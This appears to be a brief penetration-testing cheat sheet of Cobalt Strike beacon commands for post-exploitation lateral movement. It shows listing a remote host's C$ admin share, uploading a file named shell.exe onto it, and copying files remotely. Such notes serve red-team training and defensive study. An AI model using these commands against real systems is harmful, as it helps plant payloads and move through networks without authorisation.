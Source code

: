 # Cobalt Strike

Search Tag(s): #post-exploitation #lateral-movement #cobalt-strike #windows

## 01 - List Files and Directories

```
beacon> ls \\<IP>\C$
```

## 02 - Upload Files

```
beacon> upload /home/user/shell.exe \\<IP>\C$\shell.exe
```

If that didn't work change directory and then upload it

```
beacon> cd \\<IP>\C$

beacon> upload /home/user/shell.exe
```

## 03 - Copy Files Remotely

```
beacon> cp /path/to/file.txt \\<IP>\C$\copied_file.txt
```